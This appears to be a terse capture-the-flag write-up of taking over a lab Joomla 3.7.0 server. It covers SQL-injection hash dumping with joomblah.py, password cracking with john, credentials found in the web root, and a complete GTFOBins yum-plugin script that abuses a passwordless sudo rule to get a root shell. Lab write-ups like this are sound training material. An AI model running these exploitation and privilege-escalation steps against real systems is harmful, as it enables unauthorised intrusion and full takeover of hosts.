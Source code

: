 nmap shows there is a joomla service

use metasploit to scan for version -> 3.7.0

python2 joomblah.py http://10.10.110.105/ to get user and hashed password

john pass.txt --wordlist=/usr/share/wordlists/rockyou.txt to crack password

get a shell with php using a guide online

find /var/www/html which has credentials

```
public $dbtype = 'mysqli';
public $host = 'localhost';
public $user = 'root';
public $password = 'nv5uz9r3ZEDzVjNu';
```

can login as the user with

```
su jjameson
```

```
sudo -l
```

shows that

```
NOPASSWD: /usr/bin/yum
```

use gtfo bins

```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
